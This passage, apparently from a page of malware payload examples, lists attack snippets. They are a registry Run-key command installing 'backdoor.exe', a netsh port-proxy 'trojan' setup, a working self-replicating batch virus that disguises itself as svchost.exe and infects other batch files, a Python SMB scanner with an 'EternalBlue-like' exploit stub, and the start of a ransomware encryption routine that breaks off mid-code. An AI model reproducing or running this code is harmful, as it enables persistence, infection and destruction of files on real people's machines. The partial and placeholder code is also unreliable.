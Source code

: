 ```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "C:\temp\backdoor.exe"

# Proxy Server Trojan Setup
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=target-server.com
```

### Virus Propagation Payloads
```batch
REM Self-replicating batch virus
@echo off
copy "%~f0" "%APPDATA%\svchost.exe"
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Windows Security" /t REG_SZ /d "%APPDATA%\svchost.exe"
for %%f in (*.bat *.cmd) do (
    echo @echo off >> "%%f"
    echo copy "%~f0" "%APPDATA%\svchost.exe" >> "%%f"
    echo start /min "%APPDATA%\svchost.exe" >> "%%f"
)
```

### Worm Network Propagation
```python
#!/usr/bin/env python3
import socket
import threading

# Network scanning for vulnerable services
def scan_network():
    for i in range(1, 255):
        ip = f"192.168.1.{i}"
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(1)
            result = s.connect_ex((ip, 445))  # SMB port
            if result == 0:
                exploit_smb(ip)
            s.close()
        except:
            pass

def exploit_smb(target_ip):
    # EternalBlue-like exploitation
    payload = b"malicious_payload_here"
    # Send exploit payload
```

### Ransomware Encryption Patterns
```python
import os
import cryptography.fernet

# File encryption simulation
def encrypt_files(directory):
    key = cryptography.fernet.Fernet.generate_key()
    cipher = cryptography.fernet.Fernet(key)
    
    for root, dirs, files in os.walk(directory):
        for file in files:
            if file.endswith(('.txt', '.doc', '.pdf', '.jpg')):
                file_path = os.path.join(root, file)
                with open(file_path, 'rb') as f:
```